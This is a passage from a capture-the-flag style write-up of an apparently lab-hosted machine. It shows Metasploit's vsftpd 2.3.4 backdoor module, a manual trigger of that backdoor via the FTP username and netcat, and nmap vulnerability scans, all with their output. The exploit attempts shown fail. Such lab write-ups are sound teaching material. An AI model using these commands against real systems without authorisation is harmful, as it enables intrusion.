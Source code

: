 ```
```
One result. Cool, let's try it.
```
hippoeug@kali:~$ msfconsole
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
...
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.129.137.142
rhosts => 10.129.137.142
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.129.137.142:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.129.137.142:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
However, the metasploit attack didn't work.

We also try the backdoor manually, but yielded no results.
```
hippoeug@kali:~$ ftp 10.129.137.142
Connected to 10.129.137.142.
220 (vsFTPd 2.3.4)
Name (10.129.137.142:hippoeug): user:)
331 Please specify the password.
Password: [Enter]
421 Service not available, remote server has closed connection
Login failed.
No control connection for command: Success
ftp>
hippoeug@kali:~$ nc -vn 10.129.137.142 6200
(UNKNOWN) [10.129.137.142] 6200 (?) : Connection timed out
```
We were expecting `(UNKNOWN) [192.168.1.142] 6200 (?) open` but it did not appear.

Sources:
- https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/
- https://metalkey.github.io/vsftpd-v234-backdoor-command-execution.html

## 3. Finding another attack vector
Our first NMAP scan was useless. Let's try more nmap scans!
```
hippoeug@kali:~$ nmap --script vuln 10.129.137.142 -Pn -v
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 06:27 +08
...
Scanning 10.129.137.142 [1000 ports]
Discovered open port 445/tcp on 10.129.137.142
Discovered open port 139/tcp on 10.129.137.142
Discovered open port 22/tcp on 10.129.137.142
Discovered open port 21/tcp on 10.129.137.142
...
PORT    STATE SERVICE
21/tcp  open  ftp
|_sslv2-drown: 
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)
```